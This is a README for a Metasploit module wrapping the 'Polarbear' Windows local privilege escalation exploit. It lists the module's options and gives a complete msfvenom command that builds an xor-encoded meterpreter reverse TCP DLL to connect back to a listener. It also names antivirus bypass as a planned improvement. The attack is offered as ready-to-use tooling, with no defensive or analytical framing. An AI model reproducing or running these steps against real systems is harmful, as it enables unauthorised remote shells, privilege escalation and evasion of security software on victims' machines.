

# Metasploit module for Polarbear Windows LPE Exploit

## Usage

Exploit Options:

SESSION => Current meterpreter session for unprivileged user.

USERNAME => This is the username for an unprivileged user.

PASSWORD => This is the password for the same unprivileged user.

DOMAIN => This is the domain name the unprivileged user is under.

DLLPATH => This is a local path to the meterpreter reverse tcp dll.

Be sure to set PAYLOAD to a second stage meterpreter reverse tcp for the elevated connect back with:

PAYLOAD => exploit/windows/meterpreter/reverse_tcp

LHOST => Same LHOST as used for DLL

LPORT => Same LPORT as used for DLL

## Generating DLL

The DLL can be generated with:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.105 LPORT=4443 -e x64/xor -f dll -o payload.dll
```

Where LHOST is your meterpreter reverse tcp listener IP, and LPORT is the port.

## Improvements

Auto-generated OTP encoded polarbear.exe and second stage DLL with antivirus bypassing techniques.


